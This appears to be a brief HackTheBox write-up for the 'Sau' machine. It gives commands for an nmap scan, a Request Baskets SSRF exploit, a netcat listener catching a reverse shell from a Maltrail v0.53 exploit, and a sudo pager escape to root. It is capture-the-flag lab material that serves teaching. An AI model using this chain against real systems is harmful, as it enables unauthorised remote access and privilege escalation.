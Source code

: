 ![Alt](/Assets/HackTheBox/Machines/Sau.png)
#HackTheBox #Machines #Easy
## Scan Port
```bash
nmap -sCV -Pn {TARGET IP} -T4
```
The results, `22/tcp` `80/tcp` `55555/tcp`
## Connect to Sau
First add new hosts and TARGET IP in `/etc/hosts`. Open your browser with port 55555, because we can't use on port 80.
Create new basket, open basket and copy your basket. Search on your browser `Request basket exploit` and download it. In terminal, type this :
```bash
bash ./CVE-...sh {TARGET IP:PORT} {MY IP:PORT = 127.0.0.1:80}

//ex result
basket = cuyy123
```
The results is we're created new basket, open the basket with the token. Let's try paste the url basket on your browser, and see the result. Look, the result is different than before, on footer you can see `Matrail v.0.53`. So now, search `Maltrail v.0.53 exploits` and download it.
Listen the port use `nc` command
```bash
nc -lvnp 1234
```
Then, we run the exploit.py are downloaded earlier
```python
python3 exploit.py {IP tun0} {PORT} {TARGET IP:PORT}/cuyy123
```
RUN IT. Open the listen port, yeah we can connect, soo now we can find the flag. `ls` for list, `cat` for execute/read. flag 1 is user.txt on Puma users, just `cd ~` and `ls` you can find the flag of user. flag 2 is root.txt on Root directory, `sudo -l`, copy content of NOPASSWD, `sudo ...`, use shebang `!/bin/sh`. Now you're on Root user, `ls` then `cd root` then `ls` again.
Congratulations the last flag has been found by u hehehe.😁👍
![[Sau Clear.png]]